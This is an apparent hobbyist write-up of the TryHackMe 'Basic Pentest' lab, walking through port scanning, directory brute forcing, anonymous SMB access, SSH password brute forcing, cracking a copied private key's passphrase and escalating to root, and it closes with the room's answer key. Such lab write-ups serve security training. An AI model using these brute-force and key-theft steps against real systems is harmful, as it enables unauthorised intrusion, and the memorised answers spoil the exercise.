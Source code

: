 Hey Hackers, 

I think it's time for me to wash the dirt off my hands by sharing the methodologies I use for compromising the CTF machines on hacking platforms like `HackTheBox`, `TryHackMe` etc. After a lot of bullshits I came back to the good old conclusion of `Sharing is Caring!`. Even though I have done much of machines before, I rarely document my art of hacking. As this is a Beginning I think it'll be better for me to start from basic easy machines to the much insane ones, 

Lets take single small steps a time.

So enough of this junk talks, let's get in to the game. Today from tons of easy machines, the lot has been fallen for the `Basic Pentest` [machine](https://tryhackme.com/r/room/basicpentestingjt) in `TryHackMe` which is a very easy one.

Let's fire up the machine first. Take some time to lit up my Hacking Skills. I'm just blabbering this craps only because this is my first writeup. I don't talk much usually. lol.

As always let's begin with a simple and quickest port scan using rustscan. You can get the rustscan from [here](heresareallystrongpasswordthatfollowsthepasswordpolicy$$).
```sh
rustscan -a 10.10.207.198 --ulimit 5000 | tee ./nmap/rust.log
<snipped>
Nmap scan report for 10.10.207.198
Host is up, received syn-ack (0.24s latency).
Scanned at 2024-08-24 01:13:22 IST for 1s

PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
8009/tcp open  ajp13        syn-ack
8080/tcp open  http-proxy   syn-ack
```

I used rustscan for the quick port enumeration. It's usually time saving. We got the open ports and now let's use Nmap to footprint the open services. There are options to use Nmap along with rustscan but I just prefer the old school way.

Enumerate the service versions using Nmap on the open ports
```sh
nmap -sV 10.10.207.198 -p 22,80,139,445,8009,8080 -oN ./nmap/Service.log
<snipped>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see from above two output results, there are 6 open ports. `SSH` is a common open port in the CTFs which is of no use normally except for login to the server if we could enumerate any credentials from other sources. or Bruteforce is the thing we got. That's the last and final option for me while I'm on a box.

So for now let's begin with the second smallest port in the order, that is `80` which is serving an `Apache httpd 2.4.18 web server`. It also hints that the host machine platform is `Ubuntu`.

Let's fire up a web browser and take a look through the server.
```sh
firefox http://10.10.207.198 &
```

Oh Damn! There is nothing much in here.
![[./Attachments/Pasted image 20240824012735.png]]

Just a custom page saying it's under maintenance. Let's try inspect the source code and take a look.
![[Attachments/Pasted image 20240824012847.png]]
That looks like a hint for us, ain't it?. 

It looks like a message to someone coming here. Possibly there would be more files and directories in the server. 
So how do we know where the files are at? 

Ya, Lets Bruteforce the directories in the server using `Gobuster`.
```sh
gobuster dir -u http://10.10.207.198/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_80.log -t 40
<snipped>
/development          (Status: 301) [Size: 320] [--> http://10.10.207.198/development/]
```
Ha, we got a redirect code `302` on directory name `/development`.

![[Attachments/Pasted image 20240824013510.png]]
There are two text files in the directory. Seems like these are the notes that hinted in the home page source code comments.

After opening the text files.
![[Attachments/Pasted image 20240824013641.png]]
![[Attachments/Pasted image 20240824013658.png]]
Reading these notes, we could understand that these two notes are chat conversations between two users `J` and `K`, and one of the guy is working on an apache struts and not yet completed, there is a SMB Server configured and running, `K` is also asking `J` to update his password and it's less secure and easily cracked.

The above files telling us there is probable chance of bruteforcing the credential in any of the logins, but till now we do not have any usernames known but only first letters of the names.

Let's go enumerate `SMB 445` as the next port as they hinted about it in the conversation files.
```sh
smbclient -N -L //10.10.207.198/  

Sharename       Type      Comment
---------       ----      -------
Anonymous       Disk      
IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

Enumerate the shares,
```sh
smbclient -N //10.10.207.198/anonymous 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 23:01:20 2018
  ..                                  D        0  Thu Apr 19 22:43:06 2018
  staff.txt                           N      173  Thu Apr 19 22:59:55 2018
14318640 blocks of size 1024. 11086752 blocks available
```

There is another note in the SMB share called `staff.txt`, Let's read it
```sh
smb: \> !cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it\'s all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
That's a staff announcement. But what's something valuable to us is, we got the full usernames!! `Kay and Jan`. 
We already know that the password of the user `Jan` is very weak and can be easily cracked. So let's try bruteforce the `SSH` using `hydra` or `crackmapexec`. I am using `CrackMapExec` this time.
```sh
crackmapexec ssh 10.10.207.198 -u jan -p /usr/share/wordlists/rockyou.txt 
<snipped>
SSH         10.10.207.198   22     10.10.207.198    [-] jan:loveme1 Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:milagros Authentication failed.                            
SSH         10.10.207.198   22     10.10.207.198    [-] jan:stella Authentication failed.                              
SSH         10.10.207.198   22     10.10.207.198    [-] jan:lilmama Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:beyonce Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:lovely1 Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:rocky Authentication failed.     
SSH         10.10.207.198   22     10.10.207.198    [-] jan:daddy Authentication failed.    
SSH         10.10.207.198   22     10.10.207.198    [-] jan:catdog Authentication failed.                              
SSH         10.10.207.198   22     10.10.207.198    [+] jan:armando                 
```

Success! We got the password for the user `jan:armando`.

Meanwhile I went through the other open ports `8009` and `8080` as well. Found nothing useful in there so just left it there, and by the time the credentials got cracked out from `crackmapexec`.

So, Login to the ssh server.
![[Attachments/Pasted image 20240824015826.png]]
\<snipped>
![[Attachments/Pasted image 20240824015859.png]]
After a lite enumeration we got the `ssh id_rsa` file for the user `Kay` from his user home directory and we have permission to read it.
![[Attachments/Pasted image 20240824020149.png]]

Let's try to login to the user kay using this file.
```sh
jan@basic2:/home/kay/.ssh$ ssh kay@127.0.0.1 -i id_rsa
```

![[Attachments/Pasted image 20240824020637.png]]
We are unable to login to the user as it requires passphrase for the `id_rsa` file and we don't have it.

So Let's transfer it on to our attack machine by copy paste or some other means and brute force the passphrase, Here I'm using `SCP` for transferring the files.
```sh
scp jan@10.10.207.198:/home/kay/.ssh/id_rsa ./
```
Transfer successful.

Lets try to crack it using our beloved `John`.
```sh
ssh2john id_rsa > kay_rsa.hash
john kay_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
john kay_rsa.hash --show  
```

![[Attachments/Pasted image 20240824021013.png]]
We cracked the passphrase for the file. now lets log in to the user `Kay` using this file.
```sh
ssh kay@10.10.207.198 -i id_rsa
```
![[Attachments/Pasted image 20240824021211.png]]

There is a `pass.bak` file in the user home directory of this user and it wasn't readable with user `Jay` but now it's readable as the file is owned by  `Kay`.
![[Attachments/Pasted image 20240824021340.png]]
We got a password in the file and it looks like its the password for `Kay:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`.

Now let's check for the `sudo permission` for this user to escalate privileges to root.
```sh
sudo -l
```
![[Attachments/Pasted image 20240824021538.png]]
This user has full permission and can do anything and everything.

So let's switch and interact as root user.
```sh
sudo -i
```

![[Attachments/Pasted image 20240824021650.png]]
Ta Da !!! We broke the coconut shell. It's a final note congratulating us for this victory. Seems like a best start for me on this writeup journey and to you as well.

---
What is the name of the hidden directory on the web server(enter name without /)?
> /development

What is the username?
> jan

What is the password?
> armando

What service do you use to access the server(answer in abbreviation in all caps)?
>SSH

What is the name of the other user you found(all lower case)?
> kay

What is the final password you obtain?
> heresareallystrongpasswordthatfollowsthepasswordpolicy$$


 Congratulation! Hack Every Shells
 ~/ Unknown Coconut
